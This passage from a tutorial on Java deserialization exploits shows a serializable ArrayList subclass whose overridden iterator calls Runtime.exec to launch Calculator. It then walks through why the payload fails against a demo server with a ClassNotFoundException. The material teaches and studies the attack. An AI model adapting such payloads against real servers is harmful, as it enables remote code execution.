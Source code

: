 ```java
```
The for-each syntax above, `for (String entry : values)`, calls `Collection::iterator` behind the scenes.
Therefore if we implement `Collection::iterator` with custom code, the server should run it.
This is simple enough if we extend `ArrayList<String>` and override that one method.
Note that `ArrayList` implements `Serializable` so our extension will as well.
The following code should launch calculator when the server runs it.
```java
private static Collection<String> makeExploitCollection() {

    return new ArrayList<String>(){
        @Override
        public Iterator iterator() {
            try {
                Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            } catch (IOException e) {
            }
            return null;
        }
    };
}
```

However, we hit a snag if we try to send this exploit to the server.
The server prints an exception with a stacktrace.
```text
java.lang.ClassNotFoundException: com.cisco.amp.client.Client$1
    at java.net.URLClassLoader.findClass(URLClassLoader.java:382) ~[na:1.8.0_191]
    ...
    at com.cisco.amp.server.SubmissionController.submit(SubmissionController.java:22) ~[classes!/:0.0.1-SNAPSHOT]
    ...
```

The name `com.cisco.amp.client.Client$1` was given to the anonymous class we created in our client.
This is the server saying that it can't find the bytecode for `com.cisco.amp.client.Client$1`.

Let's take a look at what we sent to the server.
This is a `String` rendering of the exploit attempt.
```text
ï¿½ï¿½�sr�com.cisco.amp.server.Submission>ï¿½ï¿½1_Gï¿½�L�valuest�Ljava/util/Collection;xpsr�com.cisco.amp.client.Client$1ï¿½wï¿½:-ï¿½ï¿½��xr�java.util.ArrayListxï¿½ï¿½ï¿½ï¿½aï¿½�I�sizexp����w����x
```
We can see the references to classes we use, along with a little bit of data.
The bytecode for these classes wasn't sent along though.
Java deserialization uses classloaders to try finding the bytecode for these classes.
In this case, a `java.net.URLClassLoader` instance is searching through jar files on the classpath to find `com.cisco.amp.client.Client$1`.
It throws the above exception when it fails to find the class.

This means our exploit won't work in its current form.
The server needs to be able to access and execute our exploit code for it to work.
This can be accomplished by using classes that the server already has.
In the next section we'll see how reflection can make the exploit work in this manner.
